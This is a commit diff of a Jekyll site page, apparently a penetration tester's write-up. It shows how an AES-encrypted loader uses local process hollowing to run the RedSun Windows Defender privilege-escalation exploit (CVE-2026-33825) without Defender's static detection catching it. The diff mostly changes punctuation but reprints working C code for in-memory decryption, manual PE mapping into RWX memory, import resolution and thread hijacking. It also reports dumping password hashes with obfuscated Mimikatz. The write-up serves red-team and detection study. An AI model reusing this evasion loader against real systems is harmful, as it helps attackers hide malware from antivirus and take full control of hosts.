

Before and after one commit to RFC6592/rfc6592.github.io, a Jekyll site: the page website/RedSun-LocalHollowing.html, which Jekyll copies as it is, in a window 1280 px wide and 1400 px high, scrolled down 685 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update RedSun-LocalHollowing.html

```diff
--- a/website/RedSun-LocalHollowing.html
+++ b/website/RedSun-LocalHollowing.html
@@ -250,24 +250,24 @@
 <article>
 <div class="container">
 
-<h2>Context — What is RedSun?</h2>
+<h2>Context: What is RedSun?</h2>
 <p>
-  During a penetration test engagement I exploited <strong>CVE-2026-33825</strong>, nicknamed <strong>RedSun</strong> — a Local Privilege Escalation vulnerability in Microsoft Windows Defender's cloud file rollback mechanism. The exploit chain allows a standard authenticated user to escalate directly to <strong>NT AUTHORITY\SYSTEM</strong>.
+  During a penetration test engagement I exploited <strong>CVE-2026-33825</strong>, nicknamed <strong>RedSun</strong> a Local Privilege Escalation vulnerability in Microsoft Windows Defender's cloud file rollback mechanism. The exploit chain allows a standard authenticated user to escalate directly to <strong>NT AUTHORITY\SYSTEM</strong>.
 </p>
-<p>The attack abuses three Windows primitives chained together:</p>
+<p>The attack abuses 3 Windows primitives chained together:</p>
 <ul>
-  <li><strong>Cloud reputation metadata</strong> — Defender triggers a file rollback when it sees a cloud-tagged file.</li>
-  <li><strong>NTFS junction + opportunistic lock abuse</strong> — the attacker controls where Defender writes during the rollback.</li>
-  <li><strong>Storage Tiers COM hijack</strong> — <code>TieringEngineService.exe</code> is substituted with a malicious payload, redirecting the privileged write into <code>C:\Windows\System32</code>.</li>
+  <li><strong>Cloud reputation metadata</strong> : Defender triggers a file rollback when it sees a cloud-tagged file.</li>
+  <li><strong>NTFS junction + opportunistic lock abuse</strong> : the attacker controls where Defender writes during the rollback.</li>
+  <li><strong>Storage Tiers COM hijack</strong> : <code>TieringEngineService.exe</code> is substituted with a malicious payload, redirecting the privileged write into <code>C:\Windows\System32</code>.</li>
 </ul>
 <p>
-  Because Defender runs with SYSTEM privileges, the overwritten binary is executed in a fully elevated context — granting a SYSTEM shell from a low-privileged account.
+  Because Defender runs with SYSTEM privileges, the overwritten binary is executed in a fully elevated context, granting a SYSTEM shell from a low-privileged account.
 </p>
 <div class="callout warn">
-  <strong>The problem:</strong> dropping the raw RedSun.exe on disk is immediately flagged and quarantined by Windows Defender — the very process the exploit is intended to abuse. The binary must never hit disk in plaintext.
+  <strong>The problem:</strong> dropping the raw RedSun.exe on disk is immediately flagged and quarantined by Windows Defender. The binary must never hit disk in plaintext.
 </div>
 
-<h2>The Problem — Static PE Detection</h2>
+<h2>The Problem : Static PE Detection</h2>
 <p>
   Static detection operates on the <em>on-disk representation</em> of a PE file. When a known-malicious executable is written:
 </p>
@@ -277,19 +277,17 @@
   <li>The file is quarantined or deleted before execution ever starts.</li>
 </ul>
 <p>
-  No amount of runtime behaviour matters — if the bytes on disk are recognisable, the game is over before it starts. The solution is to ensure <strong>no cleartext PE ever touches the filesystem</strong>.
+  No amount of runtime behaviour matters, if the bytes on disk are recognisable, the game is over before it starts. The solution is to ensure <strong>no cleartext PE ever touches the filesystem</strong>.
 </p>
 
-<h2>The Solution — AES Encryption + Local Hollowing</h2>
+<h2>AES Encryption and Local Hollowing</h2>
 <p>
-  <strong>Local Process Hollowing</strong> (self-injection hollowing) replaces the current process's execution context in memory with a secondary payload, entirely without writing a decrypted binary to disk. Combined with AES encryption of the embedded payload, the loader binary contains only ciphertext — zero recognisable signatures.
+  <strong>Local Process Hollowing</strong> (self-injection hollowing) replaces the current process's execution context in memory with a secondary payload, entirely without writing a decrypted binary to disk. Combined with AES encryption of the embedded payload, the loader binary contains only ciphertext (zero recognisable signatures).
 </p>
 
-<!-- ═══════════════════════════════════════════════════════════ -->
-<!-- DIAGRAM 1 — ATTACK OVERVIEW                                -->
-<!-- ═══════════════════════════════════════════════════════════ -->
+<!-- DIAGRAM 1 : ATTACK OVERVIEW -->
 <div class="diagram">
-  <div class="diagram-title">Diagram 1 — Full Attack Overview: From Disk to SYSTEM Shell</div>
+  <div class="diagram-title">Diagram 1 : Full Attack Overview: From Disk to SYSTEM Shell</div>
   <svg viewBox="0 0 820 540" xmlns="http://www.w3.org/2000/svg" style="height:auto;">
     <defs>
       <marker id="ar" markerWidth="9" markerHeight="7" refX="8" refY="3.5" orient="auto"><polygon points="0 0,9 3.5,0 7" fill="#e83030"/></marker>
@@ -313,7 +311,7 @@
     <line x1="70" y1="416" x2="810" y2="416" stroke="#1a2535" stroke-width="1" stroke-dasharray="4,4"/>
     <line x1="70" y1="516" x2="810" y2="516" stroke="#1a2535" stroke-width="1" stroke-dasharray="4,4"/>
 
-    <!-- ── PHASE 1: LOAD ── -->
+    <!-- PHASE 1: LOAD -->
     <!-- HarryPotter.exe box -->
     <rect x="270" y="62" width="280" height="52" rx="2" fill="#111820" stroke="#e83030" stroke-width="1.5"/>
     <rect x="270" y="62" width="280" height="12" rx="2" fill="rgba(232,48,48,.18)"/>
@@ -324,7 +322,7 @@
     <!-- Arrow down -->
     <line x1="410" y1="114" x2="410" y2="138" stroke="#e83030" stroke-width="1.5" marker-end="url(#ar)"/>
 
-    <!-- ── PHASE 2: HOLLOWING ── -->
+    <!-- PHASE 2: HOLLOWING -->
     <!-- main() box -->
     <rect x="310" y="140" width="200" height="44" rx="2" fill="#111820" stroke="#58a6ff" stroke-width="1"/>
     <text x="410" y="157" fill="#58a6ff" font-family="'Bebas Neue',sans-serif" font-size="13" letter-spacing="2" text-anchor="middle">main ( )</text>
@@ -387,7 +385,7 @@
     <line x1="195" y1="468" x2="195" y2="488" stroke="#3fb950" stroke-width="1.5"/>
     <line x1="195" y1="488" x2="395" y2="488" stroke="#3fb950" stroke-width="1.5" marker-end="url(#ag)"/>
 
-    <!-- ── PHASE 3: EXPLOIT ── (handled by RedSun itself, just label it) -->
+    <!-- PHASE 3: EXPLOIT -->
     <!-- EICAR bait -->
     <rect x="270" y="422" width="115" height="36" rx="2" fill="#111820" stroke="#e83030" stroke-width="1" opacity="0"/><!-- spacer -->
 
@@ -443,11 +441,9 @@
     return 0;
 }</code></pre>
 
-<!-- ═══════════════════════════════════════════════════════════ -->
-<!-- DIAGRAM 2 — THREAD TIMELINE                                -->
-<!-- ═══════════════════════════════════════════════════════════ -->
+<!-- DIAGRAM 2 — THREAD TIMELINE -->
 <div class="diagram">
-  <div class="diagram-title">Diagram 2 — Thread Execution Timeline (Swim Lanes)</div>
+  <div class="diagram-title">Diagram 2 : Thread Execution Timeline</div>
   <svg viewBox="0 0 820 310" xmlns="http://www.w3.org/2000/svg" style="height:auto;">
     <defs>
       <marker id="ar2" markerWidth="9" markerHeight="7" refX="8" refY="3.5" orient="auto"><polygon points="0 0,9 3.5,0 7" fill="#e83030"/></marker>
@@ -479,7 +475,7 @@
     <line x1="570" y1="287" x2="570" y2="293" stroke="#1a2535" stroke-width="1"/>
     <line x1="720" y1="287" x2="720" y2="293" stroke="#1a2535" stroke-width="1"/>
 
-    <!-- ── MAIN THREAD TIMELINE ── -->
+    <!-- MAIN THREAD TIMELINE -->
     <!-- Active bar: t=0 to t=1 (running, spawning Doit) -->
     <rect x="140" y="60" width="130" height="22" rx="2" fill="rgba(88,166,255,.25)" stroke="#58a6ff" stroke-width="1"/>
     <text x="205" y="75" fill="#58a6ff" font-family="monospace" font-size="8" text-anchor="middle">Running: main()</text>
@@ -501,7 +497,7 @@
     <rect x="570" y="60" width="150" height="22" rx="2" fill="rgba(63,185,80,.25)" stroke="#3fb950" stroke-width="1.5"/>
     <text x="645" y="75" fill="#3fb950" font-family="monospace" font-size="8" text-anchor="middle">▶ RedSun EP runs</text>
 
-    <!-- ── DOIT THREAD TIMELINE ── -->
+    <!-- DOIT THREAD TIMELINE -->
     <!-- Spawned at t=1 -->
     <rect x="270" y="185" width="60" height="22" rx="2" fill="rgba(232,48,48,.2)" stroke="#e83030" stroke-width="1"/>
     <text x="300" y="200" fill="#e83030" font-family="monospace" font-size="8" text-anchor="middle">Spawn</text>
@@ -539,7 +535,7 @@
   </svg>
 </div>
 
-<h3>Step 1 — Suspend the Main Thread</h3>
+<h3>Step 1 : Suspend the Main Thread</h3>
 <p>
   The first action of <code>Doit</code> is to halt the main thread so no further instructions execute while mapping is in progress.
 </p>
@@ -564,18 +560,16 @@
 size_t decLen = 0;
 
 AES_CBC_Decrypt(encPayload, encPayloadLen, aesKey, aesIV, &decBuf, &decLen);
-printf("[+] mimi decrypted\n");</code></pre>
+printf("[+] Decrypted\n");</code></pre>
 
-<h3>Steps 3–6 — Manual PE Mapping</h3>
+<h3>Steps 3–6 : Manual PE Mapping</h3>
 <p>
   <code>decBuf</code> now holds a valid PE image in heap memory. We manually map it at a freshly allocated virtual address.
 </p>
 
-<!-- ═══════════════════════════════════════════════════════════ -->
-<!-- DIAGRAM 3 — PE MAPPING                                     -->
-<!-- ═══════════════════════════════════════════════════════════ -->
+<!-- DIAGRAM 3 : PE MAPPING -->
 <div class="diagram">
-  <div class="diagram-title">Diagram 3 — Manual PE Mapping: Raw Bytes → Mapped Image in Memory</div>
+  <div class="diagram-title">Diagram 3 : Manual PE Mapping: Raw Bytes → Mapped Image in Memory</div>
   <svg viewBox="0 0 820 420" xmlns="http://www.w3.org/2000/svg" style="height:auto;">
     <defs>
       <marker id="ar3" markerWidth="9" markerHeight="7" refX="8" refY="3.5" orient="auto"><polygon points="0 0,9 3.5,0 7" fill="#e83030"/></marker>
@@ -592,7 +586,7 @@
     <line x1="275" y1="35" x2="275" y2="400" stroke="#1a2535" stroke-width="1" stroke-dasharray="3,4"/>
     <line x1="540" y1="35" x2="540" y2="400" stroke="#1a2535" stroke-width="1" stroke-dasharray="3,4"/>
 
-    <!-- ── LEFT COLUMN: raw PE layout ── -->
+    <!-- LEFT COLUMN: raw PE layout -->
     <!-- File offset 0 -->
     <rect x="50" y="40" width="210" height="30" rx="1" fill="#111820" stroke="#1a2535" stroke-width="1"/>
     <text x="155" y="60" fill="#b8c2cc" font-family="monospace" font-size="9" text-anchor="middle">DOS Header (MZ magic)</text>
@@ -622,7 +616,7 @@
     <text x="155" y="340" fill="#5a6577" font-family="monospace" font-size="8" text-anchor="middle">② Iterate IMAGE_SECTION_HEADER[]</text>
     <text x="155" y="352" fill="#5a6577" font-family="monospace" font-size="8" text-anchor="middle">for each section → copy raw data</text>
 
-    <!-- ── MIDDLE COLUMN: parsing labels ── -->
+    <!-- MIDDLE COLUMN: parsing labels -->
     <text x="415" y="56" fill="#5a6577" font-family="monospace" font-size="8" text-anchor="middle">e_magic = 0x5A4D (MZ)</text>
     <text x="415" y="68" fill="#5a6577" font-family="monospace" font-size="8" text-anchor="middle">e_lfanew → NT headers offset</text>
 
@@ -642,7 +636,7 @@
     <text x="408" y="134" fill="#5a6577" font-family="monospace" font-size="7.5" text-anchor="middle">memcpy( imageBase+VA, raw+RVA )</text>
     <text x="408" y="144" fill="#5a6577" font-family="monospace" font-size="7.5" text-anchor="middle">for each section</text>
 
-    <!-- ── RIGHT COLUMN: mapped image ── -->
+    <!-- RIGHT COLUMN: mapped image -->
     <!-- VirtualAlloc -->
     <rect x="555" y="40" width="220" height="30" rx="1" fill="rgba(63,185,80,.1)" stroke="#3fb950" stroke-width="1.5"/>
     <text x="665" y="55" fill="#3fb950" font-family="monospace" font-size="8.5" text-anchor="middle">VirtualAlloc (SizeOfImage)</text>
@@ -702,10 +696,10 @@
     imageBase = VirtualAlloc(NULL, nt->OptionalHeader.SizeOfImage,
                              MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 
-// ── Map headers ──
+// Map headers
 memcpy(imageBase, decBuf, nt->OptionalHeader.SizeOfHeaders);
 
-// ── Map sections ──
+// Map sections
 PIMAGE_SECTION_HEADER sec = IMAGE_FIRST_SECTION(nt);
 for (WORD i = 0; i < nt->FileHeader.NumberOfSections; i++, sec++) {
     LPVOID dst = (LPVOID)((ULONG_PTR)imageBase + sec->VirtualAddress);
@@ -713,7 +707,7 @@
     memcpy(dst, src, sec->SizeOfRawData);
 }
 
-// ── Apply base relocations ──
+// Apply base relocations
 ULONG_PTR delta = (ULONG_PTR)imageBase - nt->OptionalHeader.ImageBase;
 if (delta != 0) {
     PIMAGE_DATA_DIRECTORY relDir =
@@ -761,16 +755,14 @@
     imp++;
 }</code></pre>
 
-<h3>Step 7 — Redirect Entry Point &amp; Resume</h3>
+<h3>Step 7 : Redirect Entry Point &amp; Resume</h3>
 <p>
   With the image fully mapped and imports resolved, we redirect the suspended main thread's instruction pointer to the payload's entry point, then resume it.
 </p>
 
-<!-- ═══════════════════════════════════════════════════════════ -->
-<!-- DIAGRAM 4 — IAT RESOLUTION                                 -->
-<!-- ═══════════════════════════════════════════════════════════ -->
+<!-- DIAGRAM 4 : IAT RESOLUTION -->
 <div class="diagram">
-  <div class="diagram-title">Diagram 4 — Import Address Table Resolution &amp; Thread Context Redirect</div>
+  <div class="diagram-title">Diagram 4 : Import Address Table Resolution &amp; Thread Context Redirect</div>
   <svg viewBox="0 0 820 360" xmlns="http://www.w3.org/2000/svg" style="height:auto;">
     <defs>
       <marker id="ar4" markerWidth="9" markerHeight="7" refX="8" refY="3.5" orient="auto"><polygon points="0 0,9 3.5,0 7" fill="#e83030"/></marker>
@@ -780,7 +772,7 @@
     </defs>
     <rect width="820" height="360" fill="#0d1117"/>
 
-    <!-- ── IAT section (left half) ── -->
+    <!--  IAT section (left half) -->
     <text x="200" y="24" fill="#e8873a" font-family="'Bebas Neue',sans-serif" font-size="12" text-anchor="middle" letter-spacing="2">IAT — BEFORE (unresolved)</text>
     <text x="620" y="24" fill="#3fb950" font-family="'Bebas Neue',sans-serif" font-size="12" text-anchor="middle" letter-spacing="2">IAT — AFTER (resolved)</text>
     <line x1="410" y1="30" x2="410" y2="220" stroke="#1a2535" stroke-width="1" stroke-dasharray="3,4"/>
@@ -837,7 +829,7 @@
     <!-- Arrow between halves -->
     <line x1="370" y1="90" x2="445" y2="90" stroke="#3fb950" stroke-width="2" stroke-dasharray="5,3" marker-end="url(#ag4)"/>
 
-    <!-- ── SetThreadContext section (bottom) ── -->
+    <!-- SetThreadContext section (bottom) -->
     <line x1="50" y1="228" x2="770" y2="228" stroke="#1a2535" stroke-width="1"/>
     <text x="410" y="248" fill="#e3b341" font-family="'Bebas Neue',sans-serif" font-size="13" text-anchor="middle" letter-spacing="3">THREAD CONTEXT REDIRECT</text>
 
@@ -878,11 +870,8 @@
 
 SetThreadContext(mainThreadHandle, &ctx);
 
-// Resume — main thread now executes RedSun entry point
-ResumeThread(mainThreadHandle);
-printf("[+] Delay time ...\n");
-printf("The sun is shinning...\n");
-printf("The red sun shall prevail.\n");</code></pre>
+// Resume main thread now executes RedSun entry point
+ResumeThread(mainThreadHandle);</code></pre>
 
 <hr>
 
@@ -892,13 +881,13 @@
     <tr><th>#</th><th>Function</th><th>Purpose</th></tr>
   </thead>
   <tbody>
-    <tr><td class="n">1</td><td class="fn">DuplicateHandle()</td><td class="desc">Convert pseudo-handle → real transferable handle to main thread</td></tr>
+    <tr><td class="n">1</td><td class="fn">DuplicateHandle()</td><td class="desc">Convert pseudo-handle => real transferable handle to main thread</td></tr>
     <tr><td class="n">2</td><td class="fn">CreateThread(Doit)</td><td class="desc">Spawn hollowing worker; main thread calls WaitForSingleObject</td></tr>
     <tr><td class="n">3</td><td class="fn">SuspendThread()</td><td class="desc">Halt main thread; no instructions execute during mapping</td></tr>
-    <tr><td class="n">4</td><td class="fn">AES_CBC_Decrypt()</td><td class="desc">Decrypt embedded ciphertext → valid PE image, heap only</td></tr>
+    <tr><td class="n">4</td><td class="fn">AES_CBC_Decrypt()</td><td class="desc">Decrypt embedded ciphertext => valid PE image, heap only</td></tr>
     <tr><td class="n">5</td><td class="fn">VirtualAlloc()</td><td class="desc">Allocate RWX region sized by <code>SizeOfImage</code></td></tr>
     <tr><td class="n">6</td><td class="fn">memcpy() × N</td><td class="desc">Map PE headers + each section at their respective Virtual Addresses</td></tr>
-    <tr><td class="n">7</td><td class="fn">Relocation loop</td><td class="desc">Patch all absolute addresses by <code>delta = actual − preferred</code></td></tr>
+    <tr><td class="n">7</td><td class="fn">Relocation loop</td><td class="desc">Patch all absolute addresses by <code>delta = actual - preferred</code></td></tr>
     <tr><td class="n">8</td><td class="fn">LoadLibrary / GetProcAddress</td><td class="desc">Resolve every imported function; write real addresses into IAT</td></tr>
     <tr><td class="n">9</td><td class="fn">SetThreadContext()</td><td class="desc">Overwrite <code>RIP</code> with <code>imageBase + AddressOfEntryPoint</code></td></tr>
     <tr><td class="n">10</td><td class="fn">ResumeThread()</td><td class="desc">Main thread resumes; executes RedSun EP as the loader's identity</td></tr>
@@ -907,27 +896,27 @@
 
 <h2>Result</h2>
 <p>
-  The loader (<strong>HarryPotter.exe</strong>) was delivered to the target host. On execution:
+  The loader (<strong>HarryPotter.exe</strong>) was delivered to the target host. On execution :
 </p>
 <ul>
-  <li>The AES-encrypted payload was decrypted in heap memory — no cleartext PE ever written to disk.</li>
+  <li>The AES-encrypted payload was decrypted in heap memory (no cleartext PE ever written to disk).</li>
   <li>Windows Defender detected the <strong>EICAR test file</strong> used as bait, triggering the cloud rollback mechanism as the exploit intends.</li>
   <li>A new <code>conhost.exe</code> shell was spawned as <strong>NT AUTHORITY\SYSTEM (S-1-5-18)</strong>.</li>
   <li>Local password hashes were extracted from the SYSTEM shell using an obfuscated Mimikatz build, confirming full host compromise.</li>
 </ul>
 
 <div class="diagram-custom">
-  <div class="diagram-title">Diagram 5 — Result (PoC) </div>
+  <div class="diagram-title">Diagram 5 : Result (PoC) </div>
   <img width="1609" height="803" alt="image" src="https://rfc6592.github.io/assets/img/LocalHollowing-RedSun.png" />
 </div>
 
 <h2>Key Takeaways</h2>
 <ul>
   <li><strong>Static detection</strong> is signature-driven against the on-disk PE representation. AES ciphertext has no matchable pattern.</li>
-  <li><strong>Local Hollowing</strong> keeps the decrypted payload entirely in memory — no temp files, no disk writes of the plaintext PE.</li>
+  <li><strong>Local Hollowing</strong> keeps the decrypted payload entirely in memory (no temp files, no disk writes of the plaintext PE).</li>
   <li><strong>Manual PE mapping</strong> is foundational: DOS/NT headers, section table, relocation directory, and IAT are the four structures you must fully understand.</li>
-  <li>The <code>DuplicateHandle → SuspendThread → SetThreadContext → ResumeThread</code> pattern is a clean in-process redirect that avoids spawning any detectable child process.</li>
-  <li>The technique works precisely because Defender's own remediation write is the privilege vector — the loader simply needs to survive long enough to trigger it.</li>
+  <li>The <code>DuplicateHandle => SuspendThread => SetThreadContext => ResumeThread</code> pattern is a clean in-process redirect that avoids spawning any detectable child process.</li>
+  <li>The technique works precisely because Defender's own remediation write is the privilege vector (the loader simply needs to survive long enough to trigger it.)</li>
 </ul>
 
 <div class="refs">
@@ -935,7 +924,7 @@
   <ul>
     <li><a href="https://github.com/Nightmare-Eclipse/RedSun" target="_blank">RedSun PoC — github.com/Nightmare-Eclipse/RedSun</a></li>
     <li><a href="https://msrc.microsoft.com/update-guide/vulnerability/CVE-2026-33825" target="_blank">MSRC — CVE-2026-33825</a></li>
-    <li>Picus Security — BlueHammer &amp; RedSun Explained</li>
+    <li>Picus Security : BlueHammer &amp; RedSun Explained</li>
     <li><a href="https://attack.mitre.org/techniques/T1055/" target="_blank">MITRE ATT&amp;CK — T1055: Process Injection</a></li>
     <li><a href="https://attack.mitre.org/techniques/T1574/" target="_blank">MITRE ATT&amp;CK — T1574: Hijack Execution Flow</a></li>
     <li><a href="https://attack.mitre.org/techniques/T1548/" target="_blank">MITRE ATT&amp;CK — T1548: Abuse Elevation Control Mechanism</a></li>
```
Also changed, not shown: other parts of website/RedSun-LocalHollowing.html (+8 -8 lines).
